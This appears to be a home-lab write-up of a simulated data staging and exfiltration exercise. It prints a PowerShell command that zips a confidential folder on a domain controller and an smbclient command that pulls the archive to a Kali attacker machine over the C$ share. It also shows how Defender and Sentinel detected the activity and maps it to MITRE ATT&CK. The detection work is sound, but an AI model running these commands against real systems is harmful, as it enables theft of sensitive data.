




# 09 — Data Staging & Exfiltration

## Data Staging & Exfiltration

The attacker identified sensitive files on `DC-01`, compressed them into a ZIP archive, and exfiltrated the archive to the Kali Linux attack machine over SMB.

### Data Staging

The attacker compressed the contents of `C:\Confidential` into an archive stored in `C:\Users\Public`:

```powershell
Compress-Archive -Path "C:\Confidential\*" -DestinationPath "C:\Users\Public\Exfil_Data.zip" -Force
```

The staged archive contained simulated sensitive files such as:

```text
Finance_2026.txt
User_Credentials.txt
```

Microsoft Defender detected `wsmprovhost.exe` creating `Exfil_Data.zip` under the `mylab\jsmith` context.



### Data Exfiltration via SMB

The attacker used Kali Linux to access the Domain Controller's administrative `C$` share and download the staged archive over SMB:

```bash
smbclient '//192.168.10.130/c$' -U "Jsmith" -c "cd Users\Public; get Exfil_Data.zip"
```

The archive was then extracted and its contents verified.



### Microsoft Defender for Endpoint

Microsoft Defender was used to investigate the creation of the staged archive.

The investigation identified:

* **Device:** `dc-01.mylab.local`
* **User:** `Jsmith`
* **Process:** `wsmprovhost.exe`
* **File:** `Exfil_Data.zip`
* **Path:** `C:\Users\Public`



### Microsoft Sentinel

Microsoft Sentinel was used to investigate the SMB network activity generated during the exfiltration.

The observed connection was:

```text
192.168.10.133 → 192.168.10.130
TCP/445 — SMB
```



### MITRE ATT&CK

* **T1074.001 — Local Data Staging**
* **T1560.001 — Archive Collected Data**
* **T1048 — Exfiltration Over Alternative Protocol**
* **T1021.002 — SMB/Windows Admin Shares**

### Detection Summary

The data staging and exfiltration activity was successfully detected and validated across **Microsoft Defender for Endpoint and Microsoft Sentinel**. Defender identified the creation of `Exfil_Data.zip` under the compromised `Jsmith` account, while Sentinel provided supporting network telemetry for the SMB connection from `192.168.10.133` to `192.168.10.130` over TCP `445`. The investigation confirmed the staging, transfer, and extraction of the simulated sensitive data.
